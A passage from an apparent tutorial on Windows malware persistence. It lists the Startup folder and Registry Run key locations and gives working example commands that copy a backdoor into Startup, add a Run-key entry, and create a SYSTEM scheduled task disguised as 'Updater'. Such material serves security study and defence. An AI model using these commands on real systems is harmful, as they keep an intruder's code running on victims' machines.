 * **User Startup Folder**:

  ```
  C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
  ```
* **All Users Startup Folder**:

  ```
  C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  ```

### 🛠️ Example

```cmd
copy backdoor.exe "C:\Users\victim\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\evil.exe"
```

On reboot or login, `evil.exe` will auto-execute.

---

## 2. Registry Run Keys

Programs listed in specific registry keys will **run automatically on startup**.

### 📂 Common Keys

* For the current user:

  ```
  HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
  ```
* For all users:

  ```
  HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
  ```

### 🛠️ Example

```cmd
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v evil /t REG_SZ /d "C:\Users\victim\evil.exe"
```

On reboot, `evil.exe` launches automatically.

---

## 3. Scheduled Tasks

Attackers can create **scheduled tasks** to run payloads periodically or at login.

### 🛠️ Example

```cmd
schtasks /create /tn "Updater" /tr "C:\evil.exe" /sc onlogon /ru SYSTEM
```

